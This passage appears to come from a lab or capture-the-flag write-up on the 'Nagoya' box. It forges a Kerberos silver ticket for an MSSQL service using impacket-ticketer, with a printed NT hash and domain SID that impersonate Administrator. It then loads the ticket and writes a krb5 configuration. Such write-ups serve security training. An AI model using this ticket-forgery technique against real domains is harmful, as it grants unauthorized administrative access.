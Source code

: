 In total the command is: `impacket-ticketer -nthash E3A0168BC21CFB88B95C954A5B18F57C -domain-sid S-1-5-21-1969309164-1513403977-1686805993 -domain nagoya-industries.com -spn MSSQL/nagoya.nagoya-industries.com -user-id 500 Administrator`

Quite the mouthful. Or fingerful... Anyways - we run the command, and we see this: 

![Nagoya7.png](/assets/images/Nagoya/Nagoya7.png){: .center-aligned width="600px"}

Success. Now I'm used to doing this from the target machine, but because we're using impacket, we need to make sure that we load the ticket (`Administrator.ccache`) into memory: `export KRB5CCNAME=$PWD/Administrator.ccache`. 

Then we need to create this file in `/etc/krb5user.conf`:
```
[libdefaults]
        default_realm = NAGOYA-INDUSTRIES.COM
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
    rdns = false
    dns_canonicalize_hostname = false
        fcc-mit-ticketflags = true

[realms]        
        NAGOYA-INDUSTRIES.COM = {
                kdc = nagoya.nagoya-industries.com
        }

[domain_realm]
        .nagoya-industries.com = NAGOYA-INDUSTRIES.COM
```
